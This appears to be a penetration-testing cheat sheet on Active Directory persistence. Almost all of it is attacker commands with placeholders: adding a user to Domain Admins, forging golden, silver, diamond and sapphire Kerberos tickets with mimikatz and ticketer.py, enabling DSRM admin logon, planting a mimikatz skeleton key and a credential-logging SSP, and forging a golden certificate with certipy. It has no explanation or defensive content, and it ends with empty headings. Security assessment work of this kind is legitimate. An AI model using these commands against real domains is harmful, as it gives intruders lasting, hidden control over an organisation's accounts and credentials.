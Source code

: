 ```yaml
---
title: "Persistence"
description: "Persistence techniques and commands for Active Directory security assessment."
---
```

## ADD DA
- `net group "domain admins" myuser /add /domain`

## Golden ticket
- `ticketer.py -aesKey <aeskey> -domain-sid <domain_sid> -domain <domain> <anyuser>`
- `mimikatz "kerberos::golden /user:<admin_user> /domain:<domain> /sid:<domain-sid>/aes256:<krbtgt_aes256> /ptt"`

## Silver Ticket
- `mimikatz "kerberos::golden /sid:<current_user_sid> /domain:<domain-sid> /target:<target_server> /service:<target_service> /aes256:<computer_aes256_key> /user:<any_user> /ptt"`
- `ticketer.py -nthash <machine_nt_hash> -domain-sid <domain_sid> -domain <domain> <anyuser>`

## Directory Service Restore Mode (DSRM)
- `PowerShell New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`

## Skeleton Key
- `mimikatz "privilege::debug" "misc::skeleton" "exit" #password is mimikatz`

## Custom SSP
- `mimikatz "privilege::debug" "misc::memssp" "exit"`
  - C:\Windows\System32\kiwissp.log

## Golden certificate
- `certipy ca -backup -ca '<ca_name>' -username <user>@<domain> -hashes <hash>`
  - `certipy forge -ca-pfx <ca_private_key> -upn <user>@<domain> -subject 'CN=<user>,CN=Users,DC=<CORP>,DC=<LOCAL>`

## Diamond ticket
- `ticketer.py -request -domain <domain> -user <user> -password <password> -nthash <hash> -aesKey <aeskey> -domain-sid <domain_sid>  -user-id <user_id> -groups '512,513,518,519,520' <anyuser>`

## Saphire Ticket
- `ticketer.py -request -impersonate <anyuser> -domain <domain> -user <user> -password <password>  -nthash <hash> -aesKey <aeskey> -domain-sid <domain_sid>  'ignored'`
  
## DC shadow

## ACL manipulation

## ...